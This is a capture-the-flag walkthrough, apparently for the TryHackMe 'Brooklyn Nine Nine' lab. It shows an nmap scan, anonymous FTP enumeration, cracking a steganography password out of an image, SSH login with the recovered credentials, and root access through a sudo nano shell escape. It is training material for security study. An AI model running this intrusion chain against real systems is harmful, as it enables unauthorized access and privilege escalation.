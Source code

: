 ```yaml
---
layout: default
title: Brookly Nine Nine
parent: tryhackme
nav_order: 2

---
```


## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

<br>

# Scan
- Command
	```sh
	$ nmap -sC -sV EXPORT_IP
	```
- Result
	```
	Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-22 08:04 UTC
	Nmap scan report for 10.10.51.198
	Host is up (0.26s latency).
	Not shown: 997 closed ports
	PORT   STATE SERVICE VERSION
	21/tcp open  ftp     vsftpd 3.0.3
	| ftp-anon: Anonymous FTP login allowed (FTP code 230)
	|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
	| ftp-syst:
	|   STAT:
	| FTP server status:
	|      Connected to ::ffff:10.9.26.67
	|      Logged in as ftp
	|      TYPE: ASCII
	|      No session bandwidth limit
	|      Session timeout in seconds is 300
	|      Control connection is plain text
	|      Data connections will be plain text
	|      At session startup, client count was 2
	|      vsFTPd 3.0.3 - secure, fast, stable
	|_End of status
	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey:
	|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
	|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
	|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
	80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
	|_http-server-header: Apache/2.4.29 (Ubuntu)
	|_http-title: Site doesn't have a title (text/html).
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 16.89 seconds
	```

# Enumeration
- `FTP`
	- File : note_to_jake.txt
		```text
		From Amy,
		Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
		```
		-  Things
			- username : jake, amy, holt
			- Jake password's should week
- `Web`
	- File Download : `brooklyn99.jpg`
		```sh
		$ wget http://{EXPORT_IP}/brooklyn99.jpg
		```

# Steghide && StegCracker
- `stegcracker`
	```
	$ stegcracker brooklyn99.jpg PASSWORD_WORD_LIST
	```
	- Result
		```text
		Holts Password:
		fluffydog12@ninenine
		Enjoy!!
		```


# Gainig Access
- Credential
	- holt : fluffydog12@ninenine
- Command
	```sh
	$ ssh holt@EXPORT_IP
	```

# PRIVILEGE ESCALATE
- `sudo -l`
	```
	Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
	```
- Command
	```sh
	nano -s /bin/sh
	/bin/sh
	^T
	```




